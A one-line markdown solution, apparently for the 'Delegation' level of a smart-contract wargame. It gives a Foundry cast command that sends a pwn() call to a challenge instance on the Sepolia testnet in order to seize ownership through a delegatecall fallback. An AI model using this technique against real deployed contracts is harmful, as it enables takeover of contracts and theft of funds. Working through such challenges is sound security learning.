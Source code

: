 # Delegation Solution

```
cast send `ìnstanceAddress` "pwn()" --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```
